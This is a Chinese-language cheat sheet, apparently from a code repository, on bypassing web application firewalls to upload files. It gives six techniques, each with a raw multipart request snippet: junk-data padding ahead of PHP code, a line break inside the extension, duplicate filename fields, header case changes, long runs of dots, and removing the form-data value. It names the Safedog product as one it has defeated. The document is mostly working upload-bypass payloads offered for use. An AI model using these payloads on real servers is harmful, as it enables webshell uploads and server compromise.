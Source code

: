 # WAF 绕过

## 绕过 WAF

### 1. 填充垃圾数据绕过

有些主机 WAF 软件为了不影响web服务器的性能，会对校验的用户数据设置 大小上限，比如 1M。此种情况可以构造一个大文件，前面 1M 的内容为垃圾内 容，后面才是真正的木马内容，便可以绕过 WAF 对文件内容的校验；' Content-Type 类型数据后添加垃圾数据：

```shell
Content-Type: image/jpeg

a=11111111111111111111111111111111111111111111111111111111

GIF89a

<?php phpinfo(); ?>
```

当然也可以将垃圾数据放在数据包最开头，这样便可以绕过对文件名的校验。

```shell
------WebKitFormBoundaryYijPw9QB0WlswSL2            
Content-Disposition: form-data; name="file_x"; filename="bk.jpg"
Content-Type: image/jpeg
a=111111111111111111111111111111111111111111111111111111111111111111111
</php phpinfo(); ?>
```

### 2. 文件扩展名回车绕过 （只支持 PHP）

```shell
Content-Disposition: form-data; nAme="upfile"; filename="bk.ph
p" Content-Type: image/jpeg
```

### 3. filename 绕过

针对早期版本安全狗，可以多加一个 filename 在一个 Content-Disposition 中，存在多个 filename ，协议解析应该使用最 后的filename 值作为文件名。如果 WAF 解析到 filename="bk.jpg"认为解析 到文件名，结束解析，将导致被绕过。因为后端容器解析到的文件名是 bk.asp。

```shell
Content-Disposition: form-data; name="file1";
filename="bk.jpg";filename="bk.asp"
```

### 4. 修改 Content-Disposition 字段值的大小写绕过

对这三个固定的字换:Content-Disposition,name,filename 比如 name 转换成 Name，Content-Disposition 转换成 content-disposition。 两年前，拿它绕过安全狗的上传，不知道现在如何。

```shell
Content-Disposition: form-data; name="upfile"; filename="bk.php"
改成
Content-Disposition: form-data; nAme="upfile"; filename="bk.php"
```

### 5. 文件重命名绕过

如果 web 程序会将 filename 除了扩展名的那段重命名的话，那么还可以构造更多的点、符号等等。

```shell
Content-Disposition: form-data;  name="  file1";
filename="bk....................................................................................................................
............................................................................................................asp"大概几百个点。
```

### 6. 删除 Content-Disposition 值的 form-data 绕过

有的 WAF 在解析的时候，认为 Content-Disposition 值一定是 form-data，造成绕过。两年前，拿它绕过安全狗的上传，不知道现在如何。

```shell
Content-Disposition: form-data; name="file1"; filename= "bk.php"
改为：
Content-Disposition: name="file1"; filename= "bk.php"
```
